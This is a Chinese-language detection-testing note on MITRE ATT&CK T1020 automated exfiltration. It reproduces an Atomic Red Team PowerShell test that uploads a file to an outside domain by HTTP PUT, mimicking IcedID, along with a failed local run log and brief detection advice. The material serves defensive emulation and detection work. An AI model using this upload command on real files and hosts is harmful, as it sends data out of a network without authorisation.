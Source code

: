 # T1020-Win-自动渗出

## 来自ATT&CK的描述

攻击者可能会在收集期间通过使用自动处理来渗出数据，例如敏感文件。

当使用自动渗出时，其他渗出技术可能也适用于将信息转移出网络，如通过C2通道渗出和通过替代协议渗出。

## 测试案例

IcedID Botnet HTTP PUT

创建一个文本文件，试图通过带有ContentType Header的HTTP PUT方法上传到服务器上，删除一个创建的文件

攻击命令，请使用Powershell执行：

```yml
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

file：C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt
domain：<https://google.com>

删除命令：

```yml
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```

## 检测日志

暂无，经过本地复现，Windows安全日志、Sysmon日志未记录到此命令的执行情况。实际上Windows Powershell日志可能会记录相关操作记录。

## 测试复现

### 测试1 IcedID Botnet HTTP PUT

```yml
PS C:\Users\zhuli> $fileName = "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt"
PS C:\Users\zhuli> $url = "https://google.com"
PS C:\Users\zhuli> $fileName = "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt"
PS C:\Users\zhuli> $url = "https://google.com"
PS C:\Users\zhuli> $file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
PS C:\Users\zhuli> $contentType = "application/octet-stream"
PS C:\Users\zhuli> try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}

PS C:\Users\zhuli> $fileName = "C:\Users\zhuli\Desktop\TevoraAutomatedRTGui\atomic-red-team-master\atomics\T1020\test.txt"
PS C:\Users\zhuli> Remove-Item -Path $fileName -ErrorAction Ignore
```

Windows Server 2019测试失败，根据报错信息来看，主要问题在domain位置。

## 日志留痕

暂无

## 检测规则/思路

### 建议

监控进程文件访问模式和网络行为。未被识别的进程或脚本如果看起来在遍历文件系统或发送网络流量，是很可疑的行为。

## 参考推荐

MITRE-ATT&CK-T1020

<https://attack.mitre.org/techniques/T1020>

Atomic-red-team-T1006

<https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1020>
